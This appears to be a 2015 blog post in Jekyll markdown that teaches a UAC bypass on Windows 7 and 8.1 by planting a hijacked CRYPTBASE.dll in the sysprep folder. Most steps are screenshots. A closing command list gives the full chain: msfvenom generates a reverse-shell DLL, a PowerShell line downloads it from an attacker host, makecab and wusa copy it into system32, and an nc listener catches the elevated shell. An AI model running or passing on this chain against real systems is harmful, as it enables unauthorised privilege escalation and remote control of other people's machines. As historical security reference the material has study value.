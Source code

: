 ```yaml
---
title: 		"UAC Bypass: Windows 7 and Windows 8.1"
date:		2015-10-02
tags:		[posts]
excerpt: 	"This is my first article, I hope you like it!"
---
```

(At the end you will find the commands used)

**Target 1: Windows 7 x64 build 6.1.7601**

Suppose you have a limited shell, our user is part of the "Administrators" group
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass1.png" alt="">

but we can't perform privileged operations
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass2.png" alt="">

let's bypass UAC!

First we create a DLL containing a reverse shell:
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass3.png" alt="">

From our limited shell we can download the DLL with powershell:
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass4.png" alt="">

Now we use wusa to move the dll into a privileged dir(sysprep):
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass5.png" alt="">

We can see that the file has been successfully moved
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass6.png" alt="">

Let's run sysprep.exe and listen with 'nc':
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass7.png" alt="">

Now we have bypassed the UAC and we can create a new user!
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass8.png" alt="">
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass9.png" alt="">

**Target 2: Windows 8.1 x64 build 6.3.9600**

This time we have to do the same tasks but rename the dll differently:
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass10.png" alt="">

Once downloaded to the target machine and used wusa for copying into sysprep, We can launch sysprep.exe:
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass11.png" alt="">

And here you're done!

For further information, look at the resources, there are other methods to bypass the UAC.
Have fun :)

**Commands:**
**Kali**
```console
>msfvenom -p windows/x64/shell_reverse_tcp LHOST=ip LPORT=53 -f dll -o CRYPTBASE.dll
>cp CRYPTBASE.dll /var/www
>service apache2 start
>nc -vlp 53
```

**Windows 7**
```console
>powershell.exe -Command (new-object System.Net.WebClient).DownloadFile('http://10.1.1.3/CRYPTBASE.dll','dest path CRYPTBASE.dll')
>makecab "source path CRYPTBASE.dll" "dest path try.tmp"
>wusa "source path try.tmp" /extract:"path to sysprep dir"
>cd "path sysprep (c:->windows->system32->sysprep)"
>sysprep.exe
```

**Resources:**
1. [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
2. [https://www.greyhathacker.net/?p=796](https://www.greyhathacker.net/?p=796)
